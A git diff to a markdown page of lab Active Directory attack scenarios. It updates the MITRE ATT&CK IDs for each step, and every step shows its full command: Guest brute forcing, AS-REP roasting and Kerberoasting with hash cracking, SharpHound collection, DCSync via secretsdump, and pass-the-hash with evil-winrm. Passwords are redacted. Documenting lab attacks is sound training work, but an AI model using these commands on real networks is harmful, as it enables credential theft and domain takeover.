

MITRE update

Changed region(s): [[0.6521, 0.2353, 0.8073, 0.2941], [0.3726, 0.0588, 0.4968, 0.1176]]

diff --git a/docs/attacks/index.md b/docs/attacks/index.md
@@ -6,7 +6,7 @@ title: Attack Scenarios (MITRE)
 Passwords and hashes have been concealed to retain confidentiality.
 
 ## <u>Brute Forcing Guest Account</u>
-- **Techniques:** T1021.002 (SMB), T1003 (Credential Dumping)
+- **Techniques:** T1110.001 (Brute Force: Password Guessing)
 - **Procedure:**
 
 `nxc ldap 192.168.25.137 -u 'Guest' -p /usr/share/wordlists/rockyou.txt --ignore-pw-decoding`
@@ -14,57 +14,57 @@ Passwords and hashes have been concealed to retain confidentiality.
 
 
 ## <u>Enumerating SMB Shares</u>
-- **Techniques:** T1021.002 (SMB), T1003 (Credential Dumping)
+- **Techniques:** T1135 (Network Share Discovery)
 - **Procedure:**
 
 `nxc smb 192.168.25.141 -u 'Guest' -p '_________' --shares`
-![2](img/3.png){ loading=lazy }
+![2](img/2.png){ loading=lazy }
 
 
 ## <u>ASReproast Domain Account</u>
-- **Techniques:** T1021.002 (SMB), T1003 (Credential Dumping)
+- **Techniques:** T1558.004 (Steal or Forge Kerberos Tickets: AS-REP Roasting), T1110.002 (Brute Force: Password Cracking)
 - **Procedure:**
 
 `nxc ldap 192.168.25.137 -u 'Bob' -p '' --asreproast asreproast.txt`
-![3](img/4.png){ loading=lazy }
+![3](img/3.png){ loading=lazy }
+
 `john --wordlist=/usr/share/wordlists/rockyou.txt asreproast.txt`
-![4](img/5.png){ loading=lazy }
+![4](img/4.png){ loading=lazy }
 
 
 ## <u>WinRM Shell with Domain Account</u>
-- **Techniques:** T1021.002 (SMB), T1003 (Credential Dumping)
+- **Techniques:** T1078 (Valid Accounts), T1021.006 (Remote Services: Windows Remote Management)
 - **Procedure:**
 
-`nxc winrm 192.168.25.137 -u 'Bob' -p '_________’`
-![5](img/6.png){ loading=lazy }
 `evil-winrm -i 192.168.25.137 -u 'bob' -p '_________’`
-![6](img/7.png){ loading=lazy }
+![5](img/6.png){ loading=lazy }
 
-## <u>Upload and Execution of SharpHound</u>
-- **Techniques:** T1021.002 (SMB), T1003 (Credential Dumping)
+## <u>Upload of SharpHound</u>
+- **Techniques:** T1021.006 (Remote Services: Windows Remote Management), T1059.003 (Command and Scripting Interpreter: Windows Command Shell)
 - **Procedure:**
 
 `upload SharpHound.exe`
 ![7](img/7.png){ loading=lazy }
+
+## <u>Execution of SharpHound</u>
+- **Techniques:** T1069.002 (Permission Group Discovery: Domain Groups), T1087.002 (Account Discovery), T1018 (Remote System Discovery), T1482 (Domain Trust Discovery), T1560 (Archive Collected Data)
+- **Procedure:**
+
 `./SharpHound.exe`
 ![8](img/8.png){ loading=lazy }
 
 ## <u>Exfiltration of Data Collected by SharpHound</u>
-- **Techniques:** T1021.002 (SMB), T1003 (Credential Dumping)
+- **Techniques:** T1041 (Exfiltration Over C2 Channel)
 - **Procedure:**
 
 `download 20250910173643_BloodHound.zip`
 ![10](img/10.png){ loading=lazy }
 
 ## <u>Bloodhound</u>
-- **Techniques:** T1021.002 (SMB), T1003 (Credential Dumping)
-- **Procedure:**
-
-`download 20250910173643_BloodHound.zip`
 ![11](img/11.png){ loading=lazy }
 
-## <u>Kerberoast of Service Account</u>
-- **Techniques:** T1021.002 (SMB), T1003 (Credential Dumping)
+## <u>Kerberoast of svc-test</u>
+- **Techniques:** T1558.003 (Steal or Forge Kerberos Tickets: Kerberoasting), T1110.002 (Brute Force: Password Cracking), T1078.002 (Valid Accounts: Domain Accounts)
 - **Procedure:**
 
 `nxc ldap 192.168.25.137 -u 'Bob' -p '_________' --kerberoasting kerbroast.txt`
@@ -73,14 +73,14 @@ Passwords and hashes have been concealed to retain confidentiality.
 ![13](img/13.png){ loading=lazy }
 
 ## <u>DCSync</u>
-- **Techniques:** T1021.002 (SMB), T1003 (Credential Dumping)
+- **Techniques:** T1003.006 (OS Credential Dumping: DCSync), T1078.002 (Valid Accounts: Domain Accounts)
 - **Procedure:**
 
 `impacket-secretsdump -just-dc LAB/svc-test:'_________'@WIN-LLBIAPV2E9D.lab.local`
 ![14](img/14.png){ loading=lazy }
 
 ## <u>Pass-the-hash to Login as Domain Admin</u>
-- **Techniques:** T1021.002 (SMB), T1003 (Credential Dumping)
+- **Techniques:** T1550.002 (Use Alternate Authentication Material: Pass the Hash), T1078 (Valid Accounts), T1021.006 (Remote Services: Windows Remote Management)
 - **Procedure:**
 
 `evil-winrm -i 192.168.25.137 -u 'Administrator' -H '__________________’`
